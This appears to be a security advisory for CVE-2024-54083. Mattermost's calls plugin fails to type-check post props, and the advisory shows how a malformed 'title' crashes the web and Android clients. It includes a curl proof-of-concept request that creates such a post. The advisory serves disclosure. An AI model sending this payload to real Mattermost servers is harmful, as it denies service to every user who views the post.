


# CVE-2024-54083

| Weakness Enumeration |
| -------------------- |
| CWE-1287             |

## Impact

The calls plugin does not validate the type of `callProps`, this can be used to create posts that cause client-side DoS of users attempting to render that post.

## Exploitation

The web/mobile app expect the following types for certain keys in a posts `props`:

```ts
// https://github.com/mattermost/calls-common/blob/8d2b13bd2f10847a4be461dd4225fef2ade06ab9/src/types/types.ts#L281-L291
export type CallPostProps = {
  title: string;
  start_at: number;
  end_at: number;
  participants: string[];
  recordings: CallRecordingPropsMap;
  transcriptions: CallTranscriptionPropsMap;

  // DEPRECATED
  recording_files: string[];
};
```

These aren't validated anywhere.

Therefore an attacker can create a post with `"type": "custom_calls"` and some value for one of these props that will throw an exception/crash the web/android app when used with a different type, e.g. setting the title to `{}` which will then cause react to crash with the following [error](https://react.dev/errors/31?invariant=31&args%5B%5D=object%20with%20keys%20%7B%7D):

> Objects are not valid as a React child (found: object with keys {}). If you meant to render a collection of children, use an array instead.

Create a post with type `custom_calls` and set a prop to a value that will cause an error e.g. `title` to `{}`:

### PoC

```bash
curl -X POST http://localhost:8065/api/v4/posts --data "{\"props\":{\"title\":{}},\"channel_id\":\"$CHANNEL_ID\",\"message\":\"example\",\"type\":\"custom_calls\"}" -H "Authorization: Bearer $AUTH_TOKEN"
```

Now the web/android app of all users trying to render that post will crash:




